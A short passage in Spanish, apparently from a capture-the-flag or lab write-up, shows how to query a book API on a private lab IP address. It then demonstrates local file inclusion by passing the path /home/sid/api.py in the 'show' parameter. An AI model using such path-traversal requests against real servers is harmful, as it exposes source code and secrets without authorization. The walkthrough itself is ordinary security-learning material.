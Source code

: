 Con la siguiente url vamos a ir al navegador

```shell
http://10.10.15.203:5000/api/v1/resources/books?show=1
```
Al ingresar al navegador a url, obtenemos la siguiente respuesta

![20230923013239.png](20230923013239.png)

### LFI
Al ingresar el parametro la ruta de un arcchivo, este nos permite leer el contenido de dicho fichero.

```shell
view-source:http://10.10.15.203:5000/api/v1/resources/books?show=/home/sid/api.py
```
